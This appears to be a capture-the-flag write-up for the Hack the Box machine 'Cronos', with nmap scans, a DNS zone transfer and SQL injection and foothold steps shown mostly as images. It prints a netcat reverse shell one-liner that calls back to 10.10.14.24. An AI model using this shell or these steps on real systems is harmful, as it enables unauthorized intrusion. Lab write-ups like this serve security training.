# Hack the Box - Cronos

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.13 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/16%OT=22%CT=1%CU=35700%PV=Y%DS=2%DC=I%G=Y%TM=64630A9
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.45 seconds
```

```CSS
▶ nmap -sC -sV -p 22,53,80 10.10.10.13 -oN services.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.22 seconds
```

---

## Host Information
```CSS
▶ nslookup 10.10.10.13 10.10.10.13
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5f8b3c5a-66ec-4668-ac83-682205159d32)
Domain Name: ns1.cronos.htb

---

## Zone Transfer
```
▶ dig axfr @10.10.10.13 cronos.htb
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f37c34e6-4d34-4565-87d3-d57ee7464ad4)
Domain Name: admin.cronos.htb

---

## HTTP 80

URL: `http://cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5d2fecb6-cef4-421c-8578-37bfc1d978e4)

URL: `http://admin.cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0fc5cbe0-b195-4dfd-aeea-79270f2ad30b)

---

## SQL Injectiion

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7c14eb8-7b03-4137-ad50-5c3055c16fc6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d97f11f-291d-4d3f-8a4f-1cef755d648c)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2c8419e7-77d5-457d-a8eb-b80229de3c1d)

---

## Initial Foothold

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4e29b9df-4240-487b-98a4-6a4ce682140b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c8eb3f14-7b88-4eb2-9f7c-1c1412221f29)

Reverse Bash Shell:
```CSS
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 9001 >/tmp/f
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ccaedd1-7c22-4e29-8abf-604bffdac4f7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8fffd4c2-df59-48a1-89ef-d19e17c3b03f)

### Upgrade Shell to Interactive TTY
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f1518828-bc05-447a-8313-5a248395867b)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/28989d3b-05b5-4aec-89c7-3b1e78254bb3)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d46994ef-c6fd-46ab-9f41-51a017a1c1e6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee8359b1-9f96-4aa6-a14c-adf24cc90004)

